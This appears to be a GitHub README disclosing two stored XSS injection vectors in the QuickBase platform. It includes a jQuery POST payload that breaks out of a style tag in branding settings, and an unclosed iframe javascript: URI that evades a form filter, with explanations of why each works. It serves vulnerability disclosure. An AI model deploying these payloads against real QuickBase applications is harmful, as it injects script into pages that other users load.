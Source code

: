 #QuickBase XSS
This repository documents XSS injection vectors I've discovered in the QuickBase platform (http://www.quickbase.com).

##Branding Page Injection
This one requires admin privileges, so it isn't a major vulnerability. Why, then, is it interesting? *It allows arbitrary code to run application wide!*

#####How does it work?
Run the JavaScript below in your developer console while on the dashboard of the application you want to affect. It will issue a POST to the SaveAppSettingsBrandGuide action.

```javascript
var DBID = "";
var REALM = "";
var SCRIPT = "alert('HELLO!');";
var TOKEN = $("[name=PageToken]").val();

$.ajax({
  url: "https://" + REALM + ".quickbase.com/db/" + DBID + "?a=SaveAppSettingsBrandGuide",
  type: "POST",
  data: {
    uiCustomTextColor: "</style><script>" + SCRIPT + "</script><style>",
    PageToken: TOKEN,
    CustomHeader: "on",
    uiCustomHeaderOptions: "iBasic",
    apply: "Save"
  }
});
```

#####Why does it work?
QuickBase engineers only sanitized input client side on a value that gets inserted into every page in the application. Doh!

##Form Text Element Injection
Need to run some custom JavaScript on a particular QuickBase form? No problem!

#####How does it work?
Paste the snippet below into a QuickBase form text element and you're all set.

```html
<iframe src="javascript: alert('HELLO!')" style="display: none"
```

#####Why does it work?
This one works for a couple of reasons:
- Omitting the closing tag on the iframe element allows us to skirt the regex that QuickBase is presumably using to filter out unwanted text. 
- Modern day rendering engines make an attempt to fix mistakes like unclosed tags.

